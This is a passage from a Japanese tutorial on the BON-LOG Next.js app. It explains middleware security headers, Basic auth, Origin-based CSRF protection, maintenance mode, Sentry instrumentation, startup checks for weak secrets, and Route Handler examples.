  const nonceDirective = nonce ? `'nonce-${nonce}'` : ''
  const cspDirectives = [
    "default-src 'self'",
    `script-src 'self' ${nonceDirective} 'unsafe-inline' https://*.googlesyndication.com ...`,
    "style-src 'self' 'unsafe-inline' https://fonts.googleapis.com",
    "img-src 'self' data: blob: https://*.r2.dev ...",
    "frame-ancestors 'none'",
    "base-uri 'self'",
    "form-action 'self'",
    "object-src 'none'",
    "upgrade-insecure-requests",
  ]
  response.headers.set('Content-Security-Policy', cspDirectives.join('; '))

  // HTTPS強制（本番環境のみ）
  // HTTPS強制（本番環境のみ）
  // HSTS_MAX_AGE_SECONDS は lib/constants/limits.ts で定義（31536000 = 1年）
  if (process.env.NODE_ENV === 'production') {
    response.headers.set(
      'Strict-Transport-Security',
      `max-age=${HSTS_MAX_AGE_SECONDS}; includeSubDomains; preload`
    )
  }

  return response
}
```

```
【各セキュリティヘッダーの役割】

  | ヘッダー | 防ぐ攻撃 |
  |----------|----------|
  | X-XSS-Protection | 反射型XSS攻撃 |
  | X-Content-Type-Options | MIMEタイプスニッフィング |
  | X-Frame-Options: DENY | クリックジャッキング |
  | Referrer-Policy | リファラー情報の漏洩 |
  | Content-Security-Policy | XSS、データインジェクション |
  | Strict-Transport-Security | ダウングレード攻撃（HTTP→HTTPS） |
  | Cross-Origin-Opener-Policy | クロスオリジンウィンドウ攻撃 |
```

### Basic認証（メンテナンス時のアクセス制限）

環境変数`BASIC_AUTH_USER`と`BASIC_AUTH_PASSWORD`が設定されている場合、サイト全体にBasic認証がかかります。ステージング環境やメンテナンス時に使用します。

```typescript
// proxy.ts（Next.js 16）

function checkBasicAuth(request: NextRequest): NextResponse | null {
  const basicAuthUser = process.env.BASIC_AUTH_USER
  const basicAuthPassword = process.env.BASIC_AUTH_PASSWORD

  // 環境変数が設定されていない場合はBasic認証をスキップ
  if (!basicAuthUser || !basicAuthPassword) {
    return null
  }

  const authHeader = request.headers.get('authorization')

  if (!authHeader) {
    return new NextResponse('Authentication required', {
      status: 401,
      headers: {
        'WWW-Authenticate': 'Basic realm="Secure Area"',
      },
    })
  }

  // Base64デコードしてユーザー名とパスワードを検証
  const [scheme, encoded] = authHeader.split(' ')
  if (scheme !== 'Basic' || !encoded) {
    return new NextResponse('Authentication required', { status: 401,
      headers: { 'WWW-Authenticate': 'Basic realm="Secure Area"' } })
  }

  const decoded = atob(encoded)
  // パスワードに : が含まれる場合を考慮してcolonIndexで分割
  const colonIndex = decoded.indexOf(':')
  const user = decoded.slice(0, colonIndex)
  const password = decoded.slice(colonIndex + 1)

  // タイミング安全な比較（timingSafeEqual関数を使用）
  if (!timingSafeEqual(user, basicAuthUser) || !timingSafeEqual(password, basicAuthPassword)) {
    return new NextResponse('Invalid credentials', { status: 401,
      headers: { 'WWW-Authenticate': 'Basic realm="Secure Area"' } })
  }

  return null  // 認証成功
}
```

```
【Basic認証の流れ】

  ブラウザ                     proxy.ts（Middleware）
    |                              |
    |--- GET /feed --------------> |
    |                              | BASIC_AUTH_USER が設定されている？
    |                              |   Yes → Authorizationヘッダーチェック
    |                              |   ヘッダーなし
    |<-- 401 + WWW-Authenticate -- |
    |                              |
    | (ブラウザが認証ダイアログ表示) |
    | [ユーザー名] [パスワード]     |
    |                              |
    |--- GET /feed + Auth -------> |
    |                              | Base64デコード → 検証
    |                              | OK
    |<-- 200 ページ表示 ---------- |
```

### Origin検証（CSRF対策）

POSTリクエスト（Server Actions含む）に対して、リクエスト元のOriginを検証し、不正なクロスオリジンリクエストをブロックします。

```typescript
// proxy.ts（Next.js 16）

function validateOriginHeader(request: NextRequest): NextResponse | null {
  // POSTリクエスト以外はスキップ
  if (request.method !== 'POST') {
    return null
  }

  const origin = request.headers.get('origin')

  if (origin) {
    const allowedOrigins = getAllowedOrigins()
    // NEXT_PUBLIC_APP_URL + ALLOWED_ORIGINS環境変数から許可リストを構築

    if (!allowedOrigins.includes(origin)) {
      console.warn(`[SECURITY] Blocked request from unauthorized origin: ${origin}`)
      return new NextResponse(
        JSON.stringify({ error: 'Unauthorized origin' }),
        { status: 403 }
      )
    }
  }

  return null
}
```

**Origin検証の仕組み**


```mermaid
sequenceDiagram
    participant Browser1 as ブラウザ<br/>(https://bon-log.com)
    participant Server as サーバー
    participant Evil as 悪意のあるサイト<br/>(https://evil.com)

    Note over Browser1,Server: ✅ 正規のリクエスト
    Browser1->>Server: POST /api/posts<br/>Origin: https://bon-log.com
    Note over Server: 許可リストに含まれる
    Server-->>Browser1: 200 OK

    Note over Evil,Server: ❌ CSRF攻撃
    Evil->>Server: POST /api/posts<br/>Origin: https://evil.com
    Note over Server: 許可リストにない
    Server-->>Evil: 403 Forbidden

    Note over Browser1,Server: ※ Webhookパス（/api/webhooks/）は<br/>外部からの呼び出しが必要なため除外
```

### マッチャー設定

proxy.ts（Middleware）が適用されるパスを正規表現で制御します。

```typescript
// proxy.ts（Next.js 16）

export const config = {
  matcher: [
    '/((?!_next/static|_next/image|favicon.ico|site\\.webmanifest|.*\\.(?:svg|png|jpg|jpeg|gif|webp)$).*)',
  ],
}
```

この正規表現は否定先読み`(?!...)`を使って、以下のパスを除外しています。

```
【matcher除外パターン】

  除外されるパス               理由
  ─────────────────           ──────────────
  /_next/static/*             静的アセット（JS, CSS）
  /_next/image/*              画像最適化API
  /favicon.ico                ファビコン
  /site.webmanifest           PWAマニフェスト
  *.svg, *.png, *.jpg 等      画像ファイル

  → これらはproxy.ts（Middleware）の処理（認証チェック等）が不要
  → 除外することでパフォーマンスを向上
```

### メインのProxy関数（Middleware）の完全解説

BON-LOGのproxy.ts（Middleware）のメイン関数（`export default auth(async (req) => {...})`）の処理を一行ずつ解説します。この関数はNextAuth.jsの`auth`関数でラップされており、認証情報（`req.auth`）にアクセスできます。

```typescript
// proxy.ts（Next.js 16） - メイン関数

export default auth(async (req) => {
  const { nextUrl } = req
  // nextUrl: リクエストされたURLの情報を含むオブジェクト
  // nextUrl.pathname: '/feed', '/posts/abc123' 等

  // [STEP 1] CSP nonce を生成（各リクエストで一意の値）
  const nonce = generateNonce()
  // → 'aB3dEf7gHi9jKlMn' のような16バイトのランダム文字列

  // [STEP 2] Webhookパスの判定
  // 外部サービスからのWebhookはOrigin検証をスキップ
  const webhookPaths = ['/api/webhooks/', '/api/cron/']
  const isWebhook = webhookPaths.some((path) => nextUrl.pathname.startsWith(path))

  // [STEP 3] Origin検証（CSRF対策）- Webhook以外のPOSTリクエスト
  if (!isWebhook) {
    const originError = validateOriginHeader(req)
    if (originError) {
      return originError  // 403 Forbidden
    }
  }

  // [STEP 4] 広告iframeルートはCSPを適用しない
  if (nextUrl.pathname === '/api/ad-frame') {
    return NextResponse.next()
  }

  // [STEP 5] APIルートはBasic認証をスキップ（Webhook等のため）
  if (nextUrl.pathname.startsWith('/api/')) {
    return addSecurityHeaders(NextResponse.next(), nonce)
  }

  // [STEP 6] Server Actionsのメンテナンス許可チェック
  const isServerAction = req.method === 'POST' && req.headers.get('next-action')
  if (isServerAction && isMaintenanceAllowedPath(nextUrl.pathname)) {
    return addSecurityHeaders(NextResponse.next(), nonce)
  }

  // [STEP 7] Basic認証チェック
  const basicAuthResponse = checkBasicAuth(req)
  if (basicAuthResponse) {
    return basicAuthResponse  // 401 Unauthorized
  }

  // [STEP 8] 認証状態の取得
  const isLoggedIn = !!req.auth
  // req.auth: NextAuth.jsが設定したセッション情報
  // ログインしていれば { user: { id: '...', name: '...' } }
  // ログインしていなければ null

  // [STEP 9] メンテナンスモードのチェック
  // ... (API経由でDBからメンテナンス設定を取得)

  // [STEP 10] 保護されたパスの認証チェック
  const protectedPaths = ['/feed', '/posts', '/settings', '/notifications',
                          '/bookmarks', '/users', '/messages', '/drafts',
                          '/bonsai', '/admin', '/analytics']
  const isProtected = protectedPaths.some((path) =>
    nextUrl.pathname === path || nextUrl.pathname.startsWith(path + '/')
  )

  if (isProtected && !isLoggedIn) {
    const redirectUrl = new URL('/login', nextUrl)
    redirectUrl.searchParams.set('callbackUrl', nextUrl.pathname)
    return addSecurityHeaders(NextResponse.redirect(redirectUrl), nonce)
    // /feed にアクセス → /login?callbackUrl=/feed にリダイレクト
  }

  // [STEP 11] 認証済みユーザーの認証ページリダイレクト
  const authOnlyPaths = ['/login', '/register', '/password-reset']
  const isAuthPage = authOnlyPaths.some((path) =>
    nextUrl.pathname.startsWith(path)
  )
  const isTopPage = nextUrl.pathname === '/'

  if ((isAuthPage || isTopPage) && isLoggedIn) {
    return addSecurityHeaders(NextResponse.redirect(new URL('/feed', nextUrl)), nonce)
    // ログイン済みでトップページ or ログインページ → /feed にリダイレクト
  }

  // [STEP 12] セキュリティヘッダーを付与してレスポンスを返す
  return addSecurityHeaders(NextResponse.next(), nonce)
})
```

**proxy.ts（Middleware）の処理フロー（完全版）**


```mermaid
flowchart TD
    Start[リクエスト受信]
    Start --> Nonce[nonce生成<br/>CSP用のランダム値]
    Nonce --> Webhook{Webhookパス?}
    Webhook -->|Yes| SkipOrigin[Origin検証をスキップ]
    Webhook -->|No| Origin[Origin検証]
    Origin -->|不正| Forbidden403[403 Forbidden]
    Origin -->|OK| AdFrame{/api/ad-frame?}
    SkipOrigin --> AdFrame
    AdFrame -->|Yes| NoCSP[CSPなしで通過]
    AdFrame -->|No| API{/api/* パス?}
    API -->|Yes| APIHeader[セキュリティヘッダー付与して通過<br/>Basic認証はスキップ]
    API -->|No| ServerAction{Server Action +<br/>許可パス?}
    ServerAction -->|Yes| ActionHeader[セキュリティヘッダー付与して通過]
    ServerAction -->|No| BasicAuth[Basic認証チェック]
    BasicAuth -->|失敗| Unauthorized401[401 Unauthorized]
    BasicAuth -->|成功| Maintenance{メンテナンスモード?}
    Maintenance -->|Yes & 非管理者| MaintenanceRedirect["maintenance へリダイレクト"]
    Maintenance -->|No| Protected{保護パス &<br/>未ログイン?}
    Protected -->|Yes| LoginRedirect["login へリダイレクト"]
    Protected -->|No| AuthPage{認証ページ &<br/>ログイン済み?}
    AuthPage -->|Yes| FeedRedirect["feed へリダイレクト"]
    AuthPage -->|No| Success[セキュリティヘッダー付与してページ表示]

    style Forbidden403 fill:#ffe6e6
    style Unauthorized401 fill:#ffe6e6
    style Success fill:#d4f1d4
    style Nonce fill:#e8f4f8
```

### メンテナンスモードの詳細

BON-LOGでは、Upstash Redis にメンテナンスフラグを保存し、proxy.ts（Middleware）からUpstash Redis REST APIを直接呼び出してメンテナンス状態を取得しています。自己HTTPリクエスト（proxy.tsから自分のAPI Routeを呼び出すこと）を避けるため、Edge Runtime互換のREST APIを使用しています。

```typescript
// proxy.ts（Next.js 16） - メンテナンスチェック用の関数

/**
 * Upstash Redis REST APIでメンテナンス状態を取得（Edge互換）
 * 自己HTTPリクエストを避けるため、Redisに直接アクセスする
 */
async function getMaintenanceStatus(): Promise<boolean> {
  const redisUrl = process.env.UPSTASH_REDIS_REST_URL
  const redisToken = process.env.UPSTASH_REDIS_REST_TOKEN
  if (!redisUrl || !redisToken) return false

  try {
    const response = await fetch(`${redisUrl}/get/maintenance_mode_enabled`, {
      headers: { Authorization: `Bearer ${redisToken}` },
      cache: 'no-store',
    })
    if (!response.ok) return false
    const data = await response.json()
    return data.result === 'true' || data.result === '1'
  } catch {
    return false
  }
}
```

```typescript
// proxy.ts（Next.js 16） - メンテナンスチェック部分

// メンテナンス中にアクセス可能なパス
const MAINTENANCE_ALLOWED_PATHS = [
  '/',
  '/login',
  '/register',
  '/password-reset',
  '/maintenance',
  '/api/auth', // NextAuth APIは許可
]

// 静的ファイル、メンテナンスページ、許可パスはスキップ
if (
  !nextUrl.pathname.startsWith('/_next') &&
  !nextUrl.pathname.startsWith('/api/') &&
  nextUrl.pathname !== '/maintenance' &&
  !isMaintenanceAllowedPath(nextUrl.pathname)
) {
  try {
    const maintenanceEnabled = await getMaintenanceStatus()

    // メンテナンス中の場合（全ユーザーをメンテナンスページへリダイレクト）
    if (maintenanceEnabled) {
      return addSecurityHeaders(
        NextResponse.redirect(new URL('/maintenance', nextUrl)),
        nonce
      )
    }
  } catch (error) {
    // メンテナンスチェックに失敗しても続行
    console.error('Maintenance check failed:', error)
  }
}
```

```
【メンテナンスモードの設計判断】

  Q: なぜDB（Prisma）ではなくUpstash Redisを使うのか？
  A: proxy.ts（Middleware）はEdge Runtimeで実行されるため、
     Prisma Clientが直接使えない。
     Upstash RedisはREST APIを提供しており、
     Edge Runtimeからfetch()で直接アクセスできる。

  Q: なぜ自己HTTPリクエスト（/api/maintenance/status へのfetch）を避けるのか？
  A: proxy.ts（Middleware）内で自分のAPI Routeを呼び出すと、
     そのリクエストも再びproxy.tsを通過し、
     無限ループやパフォーマンス低下の原因になる。
     Upstash Redis REST APIに直接アクセスすることで
     この問題を回避できる。

  Q: なぜcache: 'no-store'なのか？
  A: メンテナンスモードの有効/無効は即座に反映される
     必要がある。キャッシュされると、メンテナンス開始後も
     しばらくアクセスできてしまう可能性がある。

  Q: なぜtry-catchで囲んでいるのか？
  A: Redisへの接続が失敗した場合に、
     サイト全体が止まらないようにするフェイルセーフ設計。
     メンテナンスチェックに失敗した場合は
     メンテナンス中でないものとして扱い、通常通りアクセスを許可する。
```

### Edge Runtimeの制約

proxy.ts（Middleware）は**Edge Runtime**で実行されます。Node.jsのすべてのAPIが使えるわけではありません。

```
【Edge Runtimeの制約】

  ✅ 使えるもの:
  ├── Web標準API（fetch, Request, Response, URL）
  ├── crypto.getRandomValues()（暗号的乱数）
  ├── btoa() / atob()（Base64エンコード/デコード）
  ├── TextEncoder / TextDecoder
  └── setTimeout / setInterval

  ❌ 使えないもの:
  ├── fs（ファイルシステム）
  ├── net（ソケット通信）
  ├── child_process（子プロセス）
  ├── Node.jsネイティブモジュール
  └── Prisma Client（直接使用不可）
       → Edge互換の方法でDB/KV情報を取得する必要がある

  BON-LOGでのEdge Runtime対応:
  ├── メンテナンスチェック → Upstash Redis REST API（fetchで直接アクセス）
  ├── CSP nonce生成 → crypto.getRandomValues()（Web Crypto API）
  ├── Basic認証チェック → atob()でBase64デコード + TextEncoderで比較
  └── Origin検証 → URL API + Request.headers
```

### 理解度チェック

<details>
<summary>Q1: なぜproxy.ts（Middleware）でPrismaを直接使えないのですか？</summary>

**A:** proxy.ts（Middleware）はEdge Runtimeで実行されるため、Node.jsネイティブモジュールに依存するライブラリ（Prismaのデフォルトクライアント含む）が動作しません。BON-LOGでは、メンテナンスモードのチェックにUpstash Redis REST API（fetchで直接アクセス可能）を使用することで、Edge Runtimeの制約を回避しています。他の方法として、Edge Runtime対応の`@prisma/client/edge`を使う選択肢もあります。
</details>

<details>
<summary>Q2: CSP nonceを毎リクエストで生成する理由は何ですか？</summary>

**A:** nonceはリクエストごとに異なるランダム値を生成することで、攻撃者がnonceの値を予測できないようにします。もしnonceが固定値や予測可能なパターンだと、攻撃者がそのnonce付きのスクリプトタグを注入できてしまい、CSPの意味がなくなります。暗号的に安全な乱数（`crypto.getRandomValues`）を使うことが重要です。
</details>

---

## 5.15 instrumentation.ts

### このセクションで学ぶこと

- instrumentation.tsの役割と実行タイミング
- register()関数によるサーバー初期化
- Sentry統合の仕組み
- onRequestError関数によるエラー報告

### instrumentation.tsとは

`instrumentation.ts`はNext.jsのサーバーが起動する際に一度だけ実行される初期化ファイルです。プロジェクトルートに配置します。

```
【instrumentation.tsの実行タイミング】

  next dev / next start 実行
       |
       v
  サーバー起動
       |
       v
  instrumentation.ts の register() 実行 ← ここ（1回だけ）
       |
       v
  リクエスト受付開始
       |
  リクエストA → proxy.ts（Middleware） → ページ処理 → レスポンス
  リクエストB → proxy.ts（Middleware） → ページ処理 → レスポンス
  ...

  ※ register()はサーバー起動時に1回だけ実行される
  ※ proxy.ts（Middleware）は毎リクエストで実行される
```

### BON-LOGのinstrumentation.ts

```typescript
// instrumentation.ts（プロジェクトルート）

export async function register() {
  if (process.env.NEXT_RUNTIME === 'nodejs') {
    // Node.jsランタイムでの初期化
    await import('./sentry.server.config')

    // セキュリティチェックを実行
    const { enforceSecurityInProduction } = await import('./lib/security-checks')
    enforceSecurityInProduction()
  }

  if (process.env.NEXT_RUNTIME === 'edge') {
    // Edge Runtimeでの初期化
    await import('./sentry.edge.config')
  }
}
```

```
【NEXT_RUNTIMEによる分岐】

  Next.jsには2つのランタイムがある:

  1. 'nodejs'  → Server Components, API Routes, Server Actions
                  Node.jsのフルAPI使用可能
                  → Prisma, fs, etc.

  2. 'edge'    → proxy.ts（Middleware）, Edge API Routes
                  Web標準APIのみ使用可能
                  → fetch, crypto, etc.

  Sentryの設定もランタイムごとに異なるため、
  NEXT_RUNTIMEで分岐して適切な設定ファイルを読み込む
```

### Sentry初期化

Sentryはエラー監視サービスです。本番環境で発生したエラーを自動的にキャプチャして通知します。

```typescript
// sentry.server.config.ts

import * as Sentry from '@sentry/nextjs'

Sentry.init({
  dsn: process.env.SENTRY_DSN,

  // パフォーマンストレーシングのサンプリングレート
  // 本番: 10%のリクエストのみトレース（コスト削減）
  // 開発: 100%トレース
  tracesSampleRate: process.env.NODE_ENV === 'production' ? 0.1 : 1.0,

  // 本番環境でのみ有効化
  enabled: process.env.NODE_ENV === 'production',

  // 無視するエラーパターン
  ignoreErrors: [
    'NEXT_REDIRECT',          // Next.jsのリダイレクト（正常動作）
    'NEXT_NOT_FOUND',         // 404（正常動作）
    'Connection pool timeout', // DB一時的エラー
  ],
})
```

```
【Sentry設定の各項目の解説】

  dsn（Data Source Name）:
  ├── Sentryプロジェクト固有の接続文字列
  ├── 環境変数 SENTRY_DSN で管理
  └── 例: 'https://abc123@o456.ingest.sentry.io/789'

  tracesSampleRate:
  ├── パフォーマンストレーシングのサンプリング率
  ├── 本番: 0.1（10%のリクエストのみ詳細トレース）
  │   └── 全リクエストをトレースするとコストが高い
  ├── 開発: 1.0（100%トレース）
  │   └── 開発中はすべてのリクエストを追跡
  └── 0.0にすると完全に無効化

  enabled:
  ├── Sentryの有効/無効切り替え
  └── 開発環境では無効にしてノイズを減らす

  ignoreErrors:
  ├── Sentryに報告しないエラーパターン
  ├── NEXT_REDIRECT: redirect()が内部的にスローするエラー
  │   └── 正常なリダイレクト動作なので報告不要
  ├── NEXT_NOT_FOUND: notFound()のエラー
  │   └── 404は正常動作の範囲
  └── Connection pool timeout: DB接続の一時的なタイムアウト
      └── 自動回復するため、個別のアラートは不要

  beforeSend:
  ├── エラーをSentryに送信する前に呼ばれるフック
  ├── 開発環境ではnullを返してエラー送信を防止
  └── 機密情報の除去にも使用可能
```

```
【Sentryエラー監視の全体フロー】

  [1] エラー発生
      Server Component / API Route / Server Action / proxy.ts（Middleware）

  [2] Next.jsがエラーをキャッチ
      → onRequestError フックが呼ばれる

  [3] Sentry.captureException()
      → エラー情報をSentryサーバーに送信
      ├── スタックトレース
      ├── リクエストパス（/posts/abc123）
      ├── リクエストメソッド（GET, POST）
      ├── ルートタイプ（render, route, action）
      └── レンダーソース（RSC, server-rendering）

  [4] Sentryダッシュボード
      → エラーの一覧、頻度、影響ユーザー数を表示
      → Slack/メール通知で開発チームにアラート

  [5] 開発者がエラーを確認・修正
      → スタックトレースで原因を特定
      → 修正コードをデプロイ
```

### onRequestError関数

Next.jsがリクエスト処理中にエラーをキャッチした場合に呼ばれるフックです。

```typescript
// instrumentation.ts

export const onRequestError = async (
  err: { digest: string } & Error,
  request: {
    path: string
    method: string
    headers: { [key: string]: string }
  },
  context: {
    routerKind: 'Pages Router' | 'App Router'
    routePath: string
    routeType: 'render' | 'route' | 'action' | 'middleware'
    renderSource: 'react-server-components' | 'server-rendering' | ...
    revalidateReason: 'on-demand' | 'stale' | undefined
    renderType: 'dynamic' | 'dynamic-resume'
  }
) => {
  const Sentry = await import('@sentry/nextjs')

  Sentry.captureException(err, {
    extra: {
      path: request.path,
      method: request.method,
      routePath: context.routePath,
      routeType: context.routeType,
      routerKind: context.routerKind,
      renderSource: context.renderSource,
    },
  })
}
```

```
【onRequestErrorで得られるコンテキスト情報】

  エラー発生元を正確に特定できる:

  routeType:
  ├── 'render'      → Server Componentのレンダリング中
  ├── 'route'       → Route Handler（API Route）の処理中
  ├── 'action'      → Server Actionの実行中
  └── 'middleware'   → Middlewareの処理中

  renderSource:
  ├── 'react-server-components' → RSC処理中のエラー
  └── 'server-rendering'        → HTMLレンダリング中のエラー

  → Sentryダッシュボードで「どこで何が失敗したか」を正確に把握可能
```

### セキュリティチェック

register()関数内で実行されるセキュリティチェックは、アプリケーション起動時に環境設定の安全性を検証します。BON-LOGでは`lib/security-checks.ts`にチェックロジックを集約しています。

```typescript
// lib/security-checks.ts

// 弱いシークレットのパターン
const WEAK_SECRET_PATTERNS = [
  'your-development-secret',
  'your-secret-key',
  'change-in-production',
  'development-secret',
  'dev-secret',
  'test-secret',
  'secret',
  'password',
  '12345',
  'example',
  'changeme',
  'placeholder',
]

const MIN_SECRET_LENGTH = 32  // 安全なシークレットの最小文字数

export function validateAuthSecret(): {
  valid: boolean
  warnings: string[]
  errors: string[]
} {
  const secret = process.env.NEXTAUTH_SECRET
  const isProduction = process.env.NODE_ENV === 'production'
  const warnings: string[] = []
  const errors: string[] = []

  // シークレットが設定されていない
  if (!secret) {
    if (isProduction) {
      errors.push('NEXTAUTH_SECRET が設定されていません。本番環境では必須です。')
    }
    return { valid: !isProduction, warnings, errors }
  }

  // シークレットが短すぎる
  if (secret.length < MIN_SECRET_LENGTH) {
    const message = `NEXTAUTH_SECRET が短すぎます（${secret.length}文字）。`
    if (isProduction) errors.push(message)
    else warnings.push(message)
  }

  // 弱いパターンを含む
  const lowerSecret = secret.toLowerCase()
  for (const pattern of WEAK_SECRET_PATTERNS) {
    if (lowerSecret.includes(pattern.toLowerCase())) {
      const message = `NEXTAUTH_SECRET に弱いパターン '${pattern}' が含まれています。`
      if (isProduction) errors.push(message)
      else warnings.push(message)
      break
    }
  }

  // エントロピーチェック（同じ文字の繰り返しを検出）
  const uniqueChars = new Set(secret).size
  const entropyRatio = uniqueChars / secret.length
  if (entropyRatio < 0.3) {
    warnings.push('NEXTAUTH_SECRET のエントロピーが低いです。')
  }

  return { valid: errors.length === 0, warnings, errors }
}

export function enforceSecurityInProduction(): void {
  if (process.env.NODE_ENV !== 'production') {
    logSecurityWarnings()  // 開発環境では警告のみ
    return
  }

  const result = runSecurityChecks()

  if (!result.valid) {
    console.error('[SECURITY] 本番環境でセキュリティチェックに失敗しました:')
    result.secretCheck.errors.forEach((e) => console.error(`  - ${e}`))
    if (result.envCheck.missing.length > 0) {
      console.error(`  - 必須環境変数が不足: ${result.envCheck.missing.join(', ')}`)
    }
  }

  logSecurityWarnings()
}
```

```
【セキュリティチェックの実行タイミングと項目】

  サーバー起動
       |
       v
  register() 実行
       |
       v
  enforceSecurityInProduction()
       |
       ├── [1] NEXTAUTH_SECRET のチェック
       │     ├── 設定されているか？
       │     ├── 32文字以上か？
       │     ├── 弱いパターン（password, secret等）を含まないか？
       │     └── エントロピーが十分か？
       │
       ├── [2] 必須環境変数のチェック
       │     ├── DATABASE_URL
       │     ├── NEXTAUTH_URL
       │     └── NEXTAUTH_SECRET
       │
       └── [3] 追加チェック（本番のみ）
             ├── NEXT_PUBLIC_APP_URL がHTTPSか？
             └── DEBUGモードが無効か？

  開発環境: 警告のみ（サーバーは正常に起動）
  本番環境: エラーログ出力（設定によっては起動停止も可能）
```

```
【安全なNEXTAUTH_SECRETの生成方法】

  ターミナルで以下のコマンドを実行:

  $ openssl rand -base64 32
  → dR7kP3xWm9bN5tYqF2hJ8vLcE4gA6wUiO0sK1nZj+Qo=

  結果を .env.local に設定:
  NEXTAUTH_SECRET=dR7kP3xWm9bN5tYqF2hJ8vLcE4gA6wUiO0sK1nZj+Qo=

  ❌ 悪い例: NEXTAUTH_SECRET=my-secret-key
  ❌ 悪い例: NEXTAUTH_SECRET=12345678
  ❌ 悪い例: NEXTAUTH_SECRET=password
  ✅ 良い例: NEXTAUTH_SECRET=（openssl rand -base64 32 の出力）
```

### 理解度チェック

<details>
<summary>Q1: instrumentation.tsのregister()はいつ実行されますか？</summary>

**A:** Next.jsサーバーが起動する際に1回だけ実行されます。`next dev`コマンドで開発サーバーを起動した時や、`next start`で本番サーバーを起動した時です。毎リクエストで実行されるproxy.ts（Middleware）とは異なり、サーバーの初期化処理（Sentryの設定、セキュリティチェック等）を行う場所として設計されています。
</details>

<details>
<summary>Q2: NEXT_RUNTIMEで分岐する理由は何ですか？</summary>

**A:** Next.jsのNode.jsランタイムとEdge Runtimeでは利用可能なAPIが異なります。例えば、Sentryの設定もランタイムごとに異なるパッケージ（`sentry.server.config`と`sentry.edge.config`）を使う必要があります。Node.jsランタイムでは`fs`モジュールやPrismaが使えますが、Edge Runtimeでは使えません。このため、ランタイムに応じて適切な初期化処理を実行します。
</details>

---

## 5.16 Route Handlers詳細

### このセクションで学ぶこと

- app/api/配下のRoute Handlersの構造と命名規則
- HTTP メソッド（GET/POST/PUT/DELETE）ごとのハンドラ実装
- リクエストパラメータの取得方法
- レスポンスパターン（JSON、エラー、ストリーム）
- 認証チェック・レート制限の統合
- BON-LOGのAPI設計例

### Route Handlersの基本

Route Handlers（旧称API Routes）は`app/api/`配下に`route.ts`ファイルを作成して定義します。

```
【BON-LOGのAPI構造】

  app/api/
  ├── auth/
  │   └── [...nextauth]/
  │       └── route.ts          # NextAuth.js認証エンドポイント（GET/POST）
  ├── health/
  │   └── route.ts              # ヘルスチェック（GET）
  ├── upload/
  │   ├── route.ts              # メディアアップロード（POST）
  │   ├── avatar/
  │   │   └── route.ts          # アバター画像アップロード（POST）
  │   ├── header/
  │   │   └── route.ts          # ヘッダー画像アップロード（POST）
  │   └── presigned/
  │       └── route.ts          # 署名付きURL生成（POST）
  ├── badges/
  │   └── route.ts              # 未読バッジ数取得（GET）
  ├── webhooks/
  │   └── stripe/
  │       └── route.ts          # Stripe Webhook（POST）
  ├── cron/
  │   ├── cleanup-events/
  │   │   └── route.ts          # 古いイベント削除（GET）
  │   ├── check-subscriptions/
  │   │   └── route.ts          # 期限切れサブスクリプション確認（GET）
  │   └── publish-scheduled/
  │       └── route.ts          # 予約投稿公開（GET）
  ├── maintenance/
  │   └── status/
  │       └── route.ts          # メンテナンス状態確認（GET）
  ├── ad-frame/
  │   └── route.ts              # 広告iframeHTML生成（GET）
  ├── og/
  │   └── route.tsx             # 動的OG画像生成（GET, Edge Runtime）
  └── admin/
      ├── search/setup/
      │   └── route.ts          # 検索インデックス設定（POST）
      ├── sentry/
      │   └── route.ts          # Sentryテスト（GET）
      └── usage/
          └── route.ts          # サービス使用量取得（GET）

  app/
  ├── feed.xml/
  │   └── route.ts              # RSSフィード生成（GET）
  └── auth/callback/
      └── route.ts              # OAuth認証コールバック（GET）
```

### GETハンドラの実装

```typescript
// app/api/health/route.ts

import { NextResponse } from 'next/server'
import { prisma } from '@/lib/db'

export async function GET() {
  try {
    // データベース接続確認
    await prisma.$queryRaw`SELECT 1`

    return NextResponse.json(
      {
        status: 'healthy',
        timestamp: new Date().toISOString(),
        database: 'connected',
      },
      { status: 200 }
    )
  } catch (error) {
    console.error('Health check failed:', error)

    return NextResponse.json(
      {
        status: 'unhealthy',
        timestamp: new Date().toISOString(),
        database: 'disconnected',
        error: error instanceof Error ? error.message : 'Unknown error',
      },
      { status: 503 }
    )
  }
}
```

> **実行結果の確認方法**
> ターミナルまたはブラウザで `http://localhost:3000/api/health` にアクセスすると:
> - DB接続が正常な場合のJSONレスポンス:
>   ```json
>   { "status": "healthy", "timestamp": "2026-02-17T10:30:00.000Z", "database": "connected" }
>   ```
> - DB接続に失敗した場合（HTTPステータス503）:
>   ```json
>   { "status": "unhealthy", "timestamp": "2026-02-17T10:30:00.000Z", "database": "disconnected", "error": "..." }
>   ```
> - ターミナルから `curl http://localhost:3000/api/health` で動作確認できる

### POSTハンドラの実装（認証 + バリデーション付き）

```typescript
// app/api/upload/route.ts（簡略版）

import { auth } from '@/lib/auth'
import { NextRequest, NextResponse } from 'next/server'
import { checkUserRateLimit } from '@/lib/rate-limit'

export async function POST(request: NextRequest) {
  try {
    // 1. 認証チェック
    const session = await auth()
    if (!session?.user?.id) {
      return NextResponse.json(
        { error: '認証が必要です' },
        { status: 401 }
      )
    }

    // 2. レート制限チェック（1分あたり5回）
    const rateLimitResult = await checkUserRateLimit(session.user.id, 'upload')
    if (!rateLimitResult.success) {
      return NextResponse.json(
        { error: 'アップロードが多すぎます' },
        { status: 429 }
      )
    }

    // 3. リクエストボディの取得
    const formData = await request.formData()
    const file = formData.get('file') as File

    if (!file) {
      return NextResponse.json(
        { error: 'ファイルが選択されていません' },
        { status: 400 }
      )
    }

    // 4. ファイルバリデーション + アップロード処理
    // ...

    return NextResponse.json({
      success: true,
      url: result.url,
    })
    // 実行結果: { "success": true, "url": "https://xxx.r2.dev/images/abc123.webp" }
  } catch (error) {
    // サーバーログには詳細を記録
    console.error('Upload error:', error)
    // クライアントには一般的なメッセージを返す（情報漏洩防止）
    return NextResponse.json(
      { error: 'アップロード中にエラーが発生しました' },
      { status: 500 }
    )
    // 実行結果: HTTPステータス500 + { "error": "アップロード中にエラーが発生しました" }
  }
}
```

> **実行結果の確認方法**
> このAPIはフォームからファイルアップロード時に呼ばれる。レスポンスパターンは以下の通り:
> - 未認証の場合: `401` + `{ "error": "認証が必要です" }`
> - アップロード過多の場合: `429` + `{ "error": "アップロードが多すぎます" }`
> - ファイル未選択の場合: `400` + `{ "error": "ファイルが選択されていません" }`
> - 成功時: `200` + `{ "success": true, "url": "https://..." }`

### Webhookの実装

外部サービスからのコールバックを受け取るRoute Handlerです。Stripe Webhookを例に見てみましょう。

```typescript
// app/api/webhooks/stripe/route.ts（簡略版）

import { NextRequest, NextResponse } from 'next/server'
import { stripe } from '@/lib/stripe'
import Stripe from 'stripe'

